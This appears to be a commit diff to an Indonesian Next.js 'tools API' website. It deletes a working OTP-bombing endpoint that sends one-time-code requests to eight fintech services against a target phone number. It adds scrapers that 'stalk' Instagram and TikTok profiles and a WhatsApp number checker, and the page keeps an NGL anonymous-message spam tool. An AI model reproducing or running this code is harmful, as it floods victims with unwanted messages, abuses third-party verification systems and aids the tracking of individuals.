

Before and after one commit to egialghazy18-rgb/egii-apii, a Next.js app: page / in a window 1280 px wide. Shown: the part 580-1380 px from the top of the page. Before the commit the page ends 1159 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
add stalk ig tiktok wacheck, remove otp

```diff
--- a/app/api/otpspam/route.ts
+++ /dev/null
@@ -1,61 +0,0 @@
-import { NextRequest, NextResponse } from 'next/server'
-
-export const maxDuration = 10
-
-async function hit(platform: string, url: string, method: string, body: any, headers: any = {}) {
-  try {
-    const controller = new AbortController()
-    setTimeout(() => controller.abort(), 4000)
-    const res = await fetch(url, {
-      method,
-      headers: {
-        'Content-Type': 'application/json',
-        'User-Agent': 'Mozilla/5.0 (Linux; Android 13; Redmi Note 11) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Mobile Safari/537.36',
-        'Accept': 'application/json',
-        ...headers
-      },
-      body: method === 'GET' ? undefined : JSON.stringify(body),
-      signal: controller.signal
-    })
-    return { platform, success: res.status >= 200 && res.status < 300, status: res.status }
-  } catch {
-    return { platform, success: false, status: 0 }
-  }
-}
-
-export async function GET(req: NextRequest) {
-  const { searchParams } = new URL(req.url)
-  const phone = searchParams.get('phone')
-
-  if (!phone) {
-    return NextResponse.json({ status: false, message: 'Parameter phone wajib diisi' }, { status: 400 })
-  }
-
-  const p = phone.replace(/^0/, '62')
-  const p62 = phone.startsWith('62') ? phone : `62${phone.slice(1)}`
-  const p08 = phone.startsWith('0') ? phone : `0${phone.slice(2)}`
-
-  const results = await Promise.all([
-    hit('Koinworks', 'https://koinworks.com/api/v1/users/otp', 'POST', { phone_number: p08 }),
-    hit('Kredivo', 'https://api.kredivo.com/kredivo/v2/user/request_otp', 'POST', { phone: p62 }),
-    hit('Akulaku', 'https://id-api.akulaku.com/user-web/api/v1/user/sendSmsCode', 'POST', { mobile: p62, type: 1 }),
-    hit('Dana', 'https://m.dana.id/d/portal/v1/otp/send', 'POST', { mobileNo: p08, bizSceneId: 'REGISTER' }),
-    hit('LinkAja', 'https://app.linkaja.id/api/v3/user/otp', 'POST', { msisdn: p62 }),
-    hit('Flip', 'https://flip.id/api/v1/user/send-otp', 'POST', { phone: p08 }),
-    hit('SeaBank', 'https://www.seabank.co.id/api/v1/otp/send', 'POST', { phoneNumber: p62 }),
-    hit('Jenius', 'https://www.jenius.com/api/v2/auth/otp', 'POST', { phone: p08 }),
-  ])
-
-  const berhasil = results.filter(r => r.success).length
-  const gagal = results.filter(r => !r.success).length
-
-  return NextResponse.json({
-    status: true,
-    phone,
-    total: results.length,
-    berhasil,
-    gagal,
-    detail: results,
-    author: 'Egii Apii'
-  })
-}
--- /dev/null
+++ b/app/api/stalkg/route.ts
@@ -0,0 +1,47 @@
+import { NextRequest, NextResponse } from 'next/server'
+
+export async function GET(req: NextRequest) {
+  const { searchParams } = new URL(req.url)
+  const username = searchParams.get('username')
+
+  if (!username) {
+    return NextResponse.json({ status: false, message: 'Parameter username wajib diisi' }, { status: 400 })
+  }
+
+  try {
+    const res = await fetch(`https://www.instagram.com/${username}/?__a=1&__d=dis`, {
+      headers: {
+        'User-Agent': 'Mozilla/5.0 (Linux; Android 13; Redmi Note 11) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Mobile Safari/537.36',
+        'Accept': 'application/json',
+        'X-IG-App-ID': '936619743392459',
+        'Cookie': 'ig_did=1; ig_nonce=1;'
+      }
+    })
+
+    const data = await res.json()
+    const user = data?.graphql?.user || data?.data?.user
+
+    if (!user) {
+      return NextResponse.json({ status: false, message: 'User tidak ditemukan' }, { status: 404 })
+    }
+
+    return NextResponse.json({
+      status: true,
+      data: {
+        username: user.username,
+        full_name: user.full_name,
+        bio: user.biography,
+        followers: user.edge_followed_by?.count,
+        following: user.edge_follow?.count,
+        posts: user.edge_owner_to_timeline_media?.count,
+        is_private: user.is_private,
+        is_verified: user.is_verified,
+        profile_pic: user.profile_pic_url_hd || user.profile_pic_url,
+        external_url: user.external_url
+      },
+      author: 'Egii Apii'
+    })
+  } catch (err: any) {
+    return NextResponse.json({ status: false, message: err.message }, { status: 500 })
+  }
+}
--- /dev/null
+++ b/app/api/stalktok/route.ts
@@ -0,0 +1,71 @@
+import { NextRequest, NextResponse } from 'next/server'
+
+export async function GET(req: NextRequest) {
+  const { searchParams } = new URL(req.url)
+  const username = searchParams.get('username')
+
+  if (!username) {
+    return NextResponse.json({ status: false, message: 'Parameter username wajib diisi' }, { status: 400 })
+  }
+
+  try {
+    const res = await fetch(`https://www.tiktok.com/@${username}`, {
+      headers: {
+        'User-Agent': 'Mozilla/5.0 (Linux; Android 13; Redmi Note 11) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Mobile Safari/537.36',
+        'Accept': 'text/html',
+      }
+    })
+
+    const html = await res.text()
+    const match = html.match(/"uniqueId":"([^"]+)".*?"nickname":"([^"]+)".*?"followerCount":(\d+).*?"followingCount":(\d+).*?"heartCount":(\d+).*?"videoCount":(\d+).*?"verified":(true|false).*?"privateAccount":(true|false).*?"signature":"([^"]*)"/)
+
+    if (!match) {
+      const jsonMatch = html.match(/<script id="__UNIVERSAL_DATA_FOR_REHYDRATION__"[^>]*>(.*?)<\/script>/)
+      if (!jsonMatch) {
+        return NextResponse.json({ status: false, message: 'User tidak ditemukan' }, { status: 404 })
+      }
+      const json = JSON.parse(jsonMatch[1])
+      const user = json?.['__DEFAULT_SCOPE__']?.['webapp.user-detail']?.userInfo?.user
+      const stats = json?.['__DEFAULT_SCOPE__']?.['webapp.user-detail']?.userInfo?.stats
+
+      if (!user) {
+        return NextResponse.json({ status: false, message: 'User tidak ditemukan' }, { status: 404 })
+      }
+
+      return NextResponse.json({
+        status: true,
+        data: {
+          username: user.uniqueId,
+          nickname: user.nickname,
+          bio: user.signature,
+          followers: stats?.followerCount,
+          following: stats?.followingCount,
+          likes: stats?.heartCount,
+          videos: stats?.videoCount,
+          is_verified: user.verified,
+          is_private: user.privateAccount,
+          profile_pic: user.avatarLarger
+        },
+        author: 'Egii Apii'
+      })
+    }
+
+    return NextResponse.json({
+      status: true,
+      data: {
+        username: match[1],
+        nickname: match[2],
+        followers: parseInt(match[3]),
+        following: parseInt(match[4]),
+        likes: parseInt(match[5]),
+        videos: parseInt(match[6]),
+        is_verified: match[7] === 'true',
+        is_private: match[8] === 'true',
+        bio: match[9]
+      },
+      author: 'Egii Apii'
+    })
+  } catch (err: any) {
+    return NextResponse.json({ status: false, message: err.message }, { status: 500 })
+  }
+}
--- /dev/null
+++ b/app/api/wacheck/route.ts
@@ -0,0 +1,34 @@
+import { NextRequest, NextResponse } from 'next/server'
+
+export async function GET(req: NextRequest) {
+  const { searchParams } = new URL(req.url)
+  const phone = searchParams.get('phone')
+
+  if (!phone) {
+    return NextResponse.json({ status: false, message: 'Parameter phone wajib diisi' }, { status: 400 })
+  }
+
+  const p62 = phone.startsWith('0') ? `62${phone.slice(1)}` : phone.startsWith('+') ? phone.slice(1) : phone
+
+  try {
+    const res = await fetch(`https://wa.me/${p62}`, {
+      headers: {
+        'User-Agent': 'Mozilla/5.0 (Linux; Android 13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120 Mobile Safari/537.36'
+      },
+      redirect: 'follow'
+    })
+
+    const html = await res.text()
+    const isActive = !html.includes('phone number shared via link is not on WhatsApp') && !html.includes('tidak menggunakan WhatsApp')
+
+    return NextResponse.json({
+      status: true,
+      phone: p62,
+      whatsapp: isActive,
+      message: isActive ? 'Nomor aktif di WhatsApp' : 'Nomor tidak terdaftar di WhatsApp',
+      author: 'Egii Apii'
+    })
+  } catch (err: any) {
+    return NextResponse.json({ status: false, message: err.message }, { status: 500 })
+  }
+}
--- a/app/page.tsx
+++ b/app/page.tsx
@@ -9,11 +9,40 @@ const neu = {
   response: { background: '#e0e5ec', boxShadow: 'inset 4px 4px 8px #b8bec7, inset -4px -4px 8px #ffffff', borderRadius: '12px', padding: '14px' } as React.CSSProperties
 }
 
+function Badge({ color, text }: any) {
+  return <div style={{ background: '#e0e5ec', boxShadow: '3px 3px 6px #b8bec7, -3px -3px 6px #ffffff', borderRadius: '8px', padding: '3px 10px', fontSize: '11px', fontWeight: '700', color }}>{text}</div>
+}
+
 function Btn({ onClick, disabled, loading, label }: any) {
   return (
     <button onClick={onClick} disabled={disabled} style={{ width: '100%', background: '#e0e5ec', boxShadow: disabled ? 'inset 4px 4px 8px #b8bec7, inset -4px -4px 8px #ffffff' : '6px 6px 12px #b8bec7, -6px -6px 12px #ffffff', border: 'none', borderRadius: '12px', padding: '14px', fontSize: '14px', fontWeight: '700', color: disabled ? '#aaa' : '#444', cursor: disabled ? 'not-allowed' : 'pointer' }}>
       {loading ? 'Loading...' : label}
     </button>
+  )
+}
+
+function Card({ badge, color, path, name, desc, example, children }: any) {
+  return (
+    <div style={neu.card}>
+      <div style={{ display: 'flex', alignItems: 'center', gap: '10px', marginBottom: '16px' }}>
+        <Badge color={color} text="GET" />
+        <code style={{ fontSize: '13px', color: '#444', fontWeight: '600' }}>{path}</code>
+        <span style={{ marginLeft: 'auto', fontSize: '11px', color: '#999' }}>{name}</span>
+      </div>
+      <p style={{ fontSize: '12px', color: '#888', marginBottom: '16px' }}>{desc}</p>
+      <div style={neu.example}>{example}</div>
+      <div style={{ display: 'flex', flexDirection: 'column', gap: '14px' }}>{children}</div>
+    </div>
+  )
+}
+
+function Result({ data, color }: any) {
+  if (!data) return null
+  return (
+    <div style={neu.response}>
+      <p style={{ fontSize: '11px', color: '#888', textTransform: 'uppercase', letterSpacing: '1px', marginBottom: '8px' }}>Response</p>
+      <pre style={{ fontSize: '12px', color, margin: 0, overflow: 'auto' }}>{JSON.stringify(data, null, 2)}</pre>
+    </div>
   )
 }
 
@@ -23,10 +52,18 @@ export default function Home() {
   const [nglJumlah, setNglJumlah] = useState('5')
   const [nglResult, setNglResult] = useState<any>(null)
   const [nglLoading, setNglLoading] = useState(false)
-  const [phone, setPhone] = useState('')
-  const [otpJumlah, setOtpJumlah] = useState('1')
-  const [otpResult, setOtpResult] = useState<any>(null)
-  const [otpLoading, setOtpLoading] = useState(false)
+
+  const [igUser, setIgUser] = useState('')
+  const [igResult, setIgResult] = useState<any>(null)
+  const [igLoading, setIgLoading] = useState(false)
+
+  const [tokUser, setTokUser] = useState('')
+  const [tokResult, setTokResult] = useState<any>(null)
+  const [tokLoading, setTokLoading] = useState(false)
+
+  const [waPhone, setWaPhone] = useState('')
+  const [waResult, setWaResult] = useState<any>(null)
+  const [waLoading, setWaLoading] = useState(false)
 
   const extractUsername = (url: string) => {
     try { return new URL(url).pathname.replace('/', '').split('?')[0] }
@@ -39,10 +76,22 @@ export default function Home() {
     setNglResult(await res.json()); setNglLoading(false)
   }
 
-  const handleOtp = async () => {
-    setOtpLoading(true); setOtpResult(null)
-    const res = await fetch(`/api/otpspam?phone=${phone}&jumlah=${otpJumlah}`)
-    setOtpResult(await res.json()); setOtpLoading(false)
+  const handleIg = async () => {
+    setIgLoading(true); setIgResult(null)
+    const res = await fetch(`/api/stalkg?username=${igUser}`)
+    setIgResult(await res.json()); setIgLoading(false)
+  }
+
+  const handleTok = async () => {
+    setTokLoading(true); setTokResult(null)
+    const res = await fetch(`/api/stalktok?username=${tokUser}`)
+    setTokResult(await res.json()); setTokLoading(false)
+  }
+
+  const handleWa = async () => {
+    setWaLoading(true); setWaResult(null)
+    const res = await fetch(`/api/wacheck?phone=${waPhone}`)
+    setWaResult(await res.json()); setWaLoading(false)
   }
 
   return (
@@ -60,19 +109,10 @@ export default function Home() {
 
       <div style={{ marginBottom: '24px', paddingLeft: '4px' }}>
         <h1 style={{ fontSize: '24px', fontWeight: '700', color: '#333', margin: '0 0 6px' }}>API Documentation</h1>
-        <p style={{ fontSize: '13px', color: '#888', margin: 0 }}>Base URL: <code style={{ background: '#e0e5ec', boxShadow: 'inset 2px 2px 4px #b8bec7, inset -2px -2px 4px #ffffff', padding: '2px 8px', borderRadius: '6px', fontSize: '12px', color: '#555' }}>egii-tools-api.vercel.app</code></p>
+        <p style={{ fontSize: '13px', color: '#888', margin: 0 }}>Base URL: <code style={{ background: '#e0e5ec', boxShadow: 'inset 2px 2px 4px #b8bec7, inset -2px -2px 4px #ffffff', padding: '2px 8px', borderRadius: '6px', fontSize: '12px', color: '#555' }}>egii-2.vercel.app</code></p>
       </div>
 
-      {/* NGL Card */}
-      <div style={neu.card}>
-        <div style={{ display: 'flex', alignItems: 'center', gap: '10px', marginBottom: '16px' }}>
-          <div style={{ background: '#e0e5ec', boxShadow: '3px 3px 6px #b8bec7, -3px -3px 6px #ffffff', borderRadius: '8px', padding: '3px 10px', fontSize: '11px', fontWeight: '700', color: '#4CAF50' }}>GET</div>
-          <code style={{ fontSize: '13px', color: '#444', fontWeight: '600' }}>/api/nglspam</code>
-          <span style={{ marginLeft: 'auto', fontSize: '11px', color: '#999' }}>NGL Spam</span>
-        </div>
-        <p style={{ fontSize: '12px', color: '#888', marginBottom: '16px' }}>Kirim pesan anonim ke NGL link target</p>
-        <div style={neu.example}>GET /api/nglspam?username=egiuu&pesan=hai&jumlah=10</div>
-        <div style={{ display: 'flex', flexDirection: 'column', gap: '14px' }}>
+      <Card color="#4CAF50" path="/api/nglspam" name="NGL Spam" desc="Kirim pesan anonim ke NGL link target" example="GET /api/nglspam?username=egiuu&pesan=hai&jumlah=10">
         <div>
           <label style={neu.label}>NGL Link</label>
           <input style={neu.input} placeholder="https://ngl.link/egiuu1" value={nglUrl} onChange={e => setNglUrl(e.target.value)} />
@@ -81,30 +121,26 @@ export default function Home() {
         <div><label style={neu.label}>Pesan</label><input style={neu.input} placeholder="hai 👋" value={nglPesan} onChange={e => setNglPesan(e.target.value)} /></div>
         <div><label style={neu.label}>Jumlah (max 50)</label><input type="number" style={neu.input} placeholder="5" value={nglJumlah} onChange={e => setNglJumlah(e.target.value)} /></div>
         <Btn onClick={handleNgl} disabled={nglLoading || !nglUrl || !nglPesan} loading={nglLoading} label="Send NGL Spam" />
-          {nglResult && <div style={neu.response}><p style={{ fontSize: '11px', color: '#888', textTransform: 'uppercase', letterSpacing: '1px', marginBottom: '8px' }}>Response</p><pre style={{ fontSize: '12px', color: '#4CAF50', margin: 0, overflow: 'auto' }}>{JSON.stringify(nglResult, null, 2)}</pre></div>}
-        </div>
-      </div>
+        <Result data={nglResult} color="#4CAF50" />
+      </Card>
 
-      {/* OTP Card */}
-      <div style={neu.card}>
-        <div style={{ display: 'flex', alignItems: 'center', gap: '10px', marginBottom: '16px' }}>
-          <div style={{ background: '#e0e5ec', boxShadow: '3px 3px 6px #b8bec7, -3px -3px 6px #ffffff', borderRadius: '8px', padding: '3px 10px', fontSize: '11px', fontWeight: '700', color: '#FF9800' }}>GET</div>
-          <code style={{ fontSize: '13px', color: '#444', fontWeight: '600' }}>/api/otpspam</code>
-          <span style={{ marginLeft: 'auto', fontSize: '11px', color: '#999' }}>OTP Spam</span>
-        </div>
-        <p style={{ fontSize: '12px', color: '#888', marginBottom: '16px' }}>Spam OTP ke nomor HP target via multi platform</p>
-        <div style={neu.example}>GET /api/otpspam?phone=08xxxxxxxxxx&jumlah=3</div>
-        <div style={{ display: 'flex', flexDirection: 'column', gap: '14px' }}>
-          <div><label style={neu.label}>Nomor HP Target</label><input style={neu.input} placeholder="08xxxxxxxxxx" value={phone} onChange={e => setPhone(e.target.value)} /></div>
-          <div>
-            <label style={neu.label}>Jumlah Round (max 10)</label>
-            <input type="number" style={neu.input} placeholder="1" value={otpJumlah} onChange={e => setOtpJumlah(e.target.value)} />
-            <p style={{ fontSize: '11px', color: '#888', marginTop: '6px' }}>1 round = 6 platform sekaligus</p>
-          </div>
-          <Btn onClick={handleOtp} disabled={otpLoading || !phone} loading={otpLoading} label="Send OTP Spam" />
-          {otpResult && <div style={neu.response}><p style={{ fontSize: '11px', color: '#888', textTransform: 'uppercase', letterSpacing: '1px', marginBottom: '8px' }}>Response</p><pre style={{ fontSize: '12px', color: '#FF9800', margin: 0, overflow: 'auto' }}>{JSON.stringify(otpResult, null, 2)}</pre></div>}
-        </div>
-      </div>
+      <Card color="#E1306C" path="/api/stalkg" name="Stalk Instagram" desc="Ambil info publik akun Instagram" example="GET /api/stalkg?username=cristiano">
+        <div><label style={neu.label}>Username Instagram</label><input style={neu.input} placeholder="cristiano" value={igUser} onChange={e => setIgUser(e.target.value)} /></div>
+        <Btn onClick={handleIg} disabled={igLoading || !igUser} loading={igLoading} label="Stalk Instagram" />
+        <Result data={igResult} color="#E1306C" />
+      </Card>
+
+      <Card color="#000000" path="/api/stalktok" name="Stalk TikTok" desc="Ambil info publik akun TikTok" example="GET /api/stalktok?username=khaby.lame">
+        <div><label style={neu.label}>Username TikTok</label><input style={neu.input} placeholder="khaby.lame" value={tokUser} onChange={e => setTokUser(e.target.value)} /></div>
+        <Btn onClick={handleTok} disabled={tokLoading || !tokUser} loading={tokLoading} label="Stalk TikTok" />
+        <Result data={tokResult} color="#333" />
+      </Card>
+
+      <Card color="#25D366" path="/api/wacheck" name="WA Check" desc="Cek nomor HP aktif di WhatsApp atau tidak" example="GET /api/wacheck?phone=08xxxxxxxxxx">
+        <div><label style={neu.label}>Nomor HP</label><input style={neu.input} placeholder="08xxxxxxxxxx" value={waPhone} onChange={e => setWaPhone(e.target.value)} /></div>
+        <Btn onClick={handleWa} disabled={waLoading || !waPhone} loading={waLoading} label="Check WhatsApp" />
+        <Result data={waResult} color="#25D366" />
+      </Card>
 
       <p style={{ textAlign: 'center', fontSize: '11px', color: '#aaa', marginTop: '8px' }}>Egii Apii — Made by SugengTeam</p>
     </main>
```
Lines whose indentation alone changed are shown as unchanged.
